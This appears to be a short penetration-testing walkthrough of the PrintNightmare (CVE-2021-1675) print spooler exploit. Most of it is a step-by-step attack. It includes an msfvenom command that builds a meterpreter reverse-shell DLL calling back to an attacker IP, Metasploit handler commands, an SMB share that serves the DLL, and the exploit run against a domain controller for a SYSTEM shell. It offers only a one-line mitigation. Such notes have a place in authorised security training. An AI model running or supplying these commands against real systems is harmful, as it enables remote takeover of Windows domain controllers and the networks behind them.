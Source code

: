 ## PrintNightmare (CVE-2021-1675) Walkthrough
- Post-compromise attack
- Does not require authentication outside of a user account
- Takes advantage of the print spooler
- It runs as system privilege
- Similar to print spoofer, but more severe

### Attack
- Use the cube0x0 RCE exploit
- Use rpcdump to check if vulnerable: `rpcdump.py @<dc ip> | egrep 'MS-RPRN|MS-PAR'`
- If it shows "Print System Remote Protocol", it is vulnerable
- Follow installation directions
- Create malicious DLL: `msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=<attacker ip> LPORT=5555 -f dll > shell.dll`
- Run `msfconsole`
- `use exploit/multi/handler`
- `set payload windows/x64/meterpreter/reverse_tcp`
- `set lport 5555`
- `set lhost <attacker ip>`
- `run`
- Setup file share: `smbserver.py share 'pwd' -smb2support`
- Run exploit: `python3 CVE-2021-1675.py <domain>/<username>:<password>@<dc ip> '\\<attacker ip>\share\shell.dll'`
- If Defender is off, you get a shell as system

### Mitigation
- Disable print spooler
